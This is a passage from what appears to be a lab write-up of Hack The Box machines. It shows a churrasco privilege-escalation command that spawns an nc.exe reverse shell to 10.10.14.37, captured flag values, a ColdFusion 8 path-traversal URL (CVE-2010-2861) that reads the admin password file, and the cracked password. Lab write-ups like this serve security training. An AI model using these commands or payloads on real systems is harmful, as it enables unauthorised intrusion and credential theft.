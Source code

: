    ```powershell
   churrasco -d "c:\coyote\nc.exe -nv 10.10.14.37 8000 -e cmd.exe"
   ```

   ![image-20201113213634846](.Report.assets/image-20201113213634846.png)

3. This shell would die after a couple of minutes but it stays up long enough to grab the user.txt and root.txt flags.  If I were really attacking this target, I could open port 445 through the firewall, get the admin hash and use PTH to connection, or create an admin user, open the port for RDP and enable it, then RDP to the machine.
   ![image-20201113213933101](.Report.assets/image-20201113213933101.png)
   user.txt: 700c5dc163014e22b3e408f8703f67d1
   root.txt: aa4beed1c0584445ab463a6747bd06e9

### 10.10.10.11 - Arctic

1. Initial nmap enumeration scans showed port 8500 was open but it was not sure what the port was running.  The target was running very slow, so this may have been the cause of the issue, but when I was able to load a webpage on that port which showed the target was running Cold Fusion.  I verified it was Cold Fusion 8 at this URL:  http://10.10.10.11:8500/cfdocs/dochome.htm

2. This version of ColdFusion has a path traversal vulnerability (CVE 2010-2861) which, according to this page (https://www.exploit-db.com/exploits/14641) allows the display of the admin password hash by visiting this URL:  http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en.  I was able to obtain this hash and identified it as a SHA1 hash.  Cracking the hash revealed the admin password was `happyday`.
